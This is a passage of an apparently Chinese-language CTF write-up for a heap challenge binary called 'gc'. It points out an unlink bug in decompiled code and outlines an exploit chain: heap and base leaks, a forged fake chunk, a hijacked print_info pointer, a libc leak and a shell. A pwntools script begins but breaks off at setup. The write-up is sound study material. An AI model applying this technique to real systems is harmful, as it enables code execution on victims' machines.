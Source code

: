    ```C
       {
         c = getchar();
         flag = 0;
         if ( c != '\n' )
           flag = c != -1;
       }
       while ( flag );
     }
   ```

   ​

5. 在 Store_Box_to_Storage 这个函数中

```c
  if ( p->fd == p )                             
  {
    wl_head = 0LL;
  }
  else                                          // 这个地方有漏洞。只是把 box 给 unlink 出来，并没有改变 workline_head 的指向
  {
    p->bk->fd = p->fd;
    p->fd->bk = p->bk;
  }
```



最后利用的时候第四个漏洞并没有利用到。先在堆上 malloc 一些 chunk，然后利用 get_input_str 的 info leak 一个字节一个字节的把堆上的信息给 leak 出来。堆上可以 leak 的有堆的基质和box chunk 中 function 的地址，也就是程序的基地址。

因为 box chunk 的 tag 是完全可控的，所以在 tag 中构造一个 fake box chunk 和一个指向这个fake box chunk 的指针。然后故意申请一个巨大的空间，让程序 gc 并且交换两个堆，在第二个堆中申请一个 size 为1的 box chunk，然后再交换两个堆，然后这个 box chunk 会认为之前构造的指向 fake chunk 的指针是自己的 content，然后调用 list_all函数就能调用 box chunk 的 print_info 函数，当然这个函数的地址和参数都是我们可控的。按照上面的方法先 leak got 表中的 libc 地址，第二次的时候就能 getshell 了。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

_program = 'gc'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _offset = __get_base(p, os.path.abspath(p.executable))
            #breakpoints
```